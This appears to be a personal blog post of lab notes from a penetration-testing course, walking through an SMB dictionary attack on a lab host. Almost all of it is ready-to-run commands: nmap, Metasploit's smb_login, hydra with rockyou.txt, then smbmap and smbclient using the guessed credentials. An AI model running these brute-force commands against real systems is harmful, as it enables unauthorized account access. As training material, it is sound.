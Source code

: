 ```yaml
---
layout: post
title: "SMB Dictionary Attack"
date: "2022-08-20"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Assessment Methodologies
    - Enumeration
---
```


# SMB Dictionary Attack
```
ip a

inet 192.125.26.2
```

```
nmap 192.125.26.3 
```

```
msfconsole

use auxiliary/scanner/smb/smb_login
info
options
set rhosts 192.125.26.3
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
set smbuser jane
options
run
exit
```

```
gzip -d /usr/share/wordlists/rockyou.txt.gz
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.125.26.3 smb
```

```
smbmap -H 192.125.26.3 -u admin -p password1
```

If any of these shares is browsable? jane's share is not browsable.

```
smbclient -L 192.125.26.3 -U jane
```

